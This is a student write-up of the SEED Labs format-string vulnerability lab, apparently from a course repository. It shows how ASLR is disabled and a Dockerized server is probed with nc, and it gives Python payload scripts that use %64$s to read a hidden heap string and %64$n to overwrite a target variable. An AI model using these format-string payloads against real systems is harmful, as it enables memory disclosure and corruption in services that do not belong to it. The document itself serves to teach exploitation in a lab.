

# Format-String Vulnerability Lab

## Environment Setup

To begin our assignment, we need to turn off the address randomization using the following command

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

Before opening the terminals, it is important that we compile the program using the *"-z execstack"* option, which allows the stack to be executable.

In the following, we list some of the commonly used commands related to Docker and Compose. Since we are going to use these commands very frequently, we have created aliases for them in the .bashrcfile(in our provided SEEDUbuntu 20.04 VM).

```bash
$ dcbuild # Alias for: docket-compose build
$ dcup # Alias for: docket-compose up
$ dcdown # Alias for: docket-compose down
```

All the containers will be running in the background.  To run commands on a container, we often need to get a shell on that container.  We first need to use the"docker ps"command to find out the ID of the container, and then use "docker exec" to start a shell on that container. We have created aliases forthem in the .bashrcfile.

```bash
$ dockps # Alias for: docker ps --format "{{.ID}}  {{.Names}}"
$ docksh <id>  # // Alias for: docker exec -it <id> /bin/bash
```


# Task 1

Then, we open two terminals, one with the servers, using Docker from Seed-Labs, and another one to communicate with the servers. This allows us to see the exchange of messages between both sides. For example, when we send a string to the server using the command:

```bash
 $ echo 'hello' | nc 10.9.0.5 9090
 ```

We can see the following content appear on the other side:


From this, we can see some important addresses that we will be using in the following tasks, such as:

The Buffer Input Address;
The Secret Message Address;
The Frame Pointer;
The Target Variable's initial and final values.


To crash our program, firstly we created a file called task1.txt with the following content:


Then, when we execute the code, our program will read values from the stack that are not valid memory addresses. The message *Returned Properly* did not appear, so we know that our program crashed, as expected.


# Task 2.A

To find out how many %x format specifiers we need to get the server program to print out the first four bytes of our input, we first used "AAAA" as input that we know is "414141" in hexadecimal.

The idea behind this is giving "AAAA" as input and then concatenate with many "%08x.

```bash
$ echo "AAAA%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```

In the server, we get the following output:


The final "41414141" is the string input adress. Between "AAAA" AND "41414141" there are 504 characters, and each adress has 8, so 504/8 = 63 adresses in the stack. We can conclude that to print the first 4 bytes of input is necessary 64 "%x".

# Task 2.B

For this task, we need to print the content of a string that is in the Heap in the adress 0x080b4008.

We created an auxiliar python scrip to insert the 64 "%s".

```
import sys

content = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We know that by sending a "%s", printf function will read a string from an address. In the previous task, we learned that the number of "%x" needed to get to the beginning of the stack is 64.
By using the auxiliar script, we inserted the string adress followed by 64 "%s", so the format string can read from the adress and return the hidden message.

By executing the auxiliar scrip we get the following outputs:


The secret message is "A secret message".

# Task 3: Modifying the Server Program’s Memory

## Task 3.A: Change the value to a different value

In this task, we need to change the value of the target. The initial value is 0x11223344 and the adress is 0x080e5068.

The command "%n" in format strings, writes the number of characters written up to that point into the memory area of the argument passed as a parameter. The approach is very similar to the command in task 2.B, only instead of reading from the selected address, we will write.

To change the value of the target, we created the following python scrip:
```
import sys

content = (0x080e5068).to_bytes(4,byteorder='little') + ("%64$n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```




After examining the output, we can see that the target variable value changed.